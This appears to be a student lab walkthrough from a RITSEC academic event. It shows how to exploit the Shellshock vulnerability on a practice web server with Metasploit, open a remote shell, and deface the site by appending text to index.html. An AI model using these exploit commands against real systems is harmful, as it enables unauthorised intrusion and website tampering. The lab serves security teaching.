# RITSEC Academic Day - ShellShock 

## Setup
- Open 'VMWare Workstation Pro'
- Click on 'Kali Linux 2021' on the left side list of VMs
- Right click again on 'Kali Linux 2021' and click 'Settings'. 
    - Select 'Network Adapter' and change it to 'Bridged'
- Hit the Green Play Button to start the VM.
    - Username: kali
    - Password: kali

## Viewing the Website
- Click the top left logo to search for firefox.
- Open your browser and head to http://<TARGET_IP>:8080

## Attacking the Box - Commands To Run
- Click the Black Box with the "$_" to open the terminal.



This will open the Metasploit Console.
1. `msfconsole`



Here, you are searching for the shellshock vulnerability to use.

2. `search shellshock`



This is selecting the shellshock exploit.

3. `use 1`



This is seeing the module and payload options that will be configured.

4. `options`



Setting the vulnerable cgi page to utilize.

5. `set targeturi /cgi-bin/vulnerable`



Setting the target hosting the site that we will attack.

6. `set rhosts <TARGET_IP>`

Setting the port the website is being hosted on.

7. `set rport 8080`



Attack the box!

7. `exploit`



With the meterpreter prompt, enter `shell` to spawn a bash prompt on the box.

8. `shell`



## Modifying the Website

With your shell, now you can modify the website. Run the pwd command to see your path (location) on the remote box.

1. `pwd`



Most websites by default keep their files in `/var/www`. Change to this directory and list the contents.

2. `cd /var/www`
3. `ls`



The `index.html` file contains the main page of the website. Add your name to it below. 

The `echo` command will write what you give it into the file given. MAKE SURE TO USE TWO (2) '>' keys!

4. `echo 'your_name_here' >> index.html`



Now visit the website and see that your name has been publicly added!

Now it's your turn, find out how to add a page of your own to the site. (Hint: use the `touch` command)
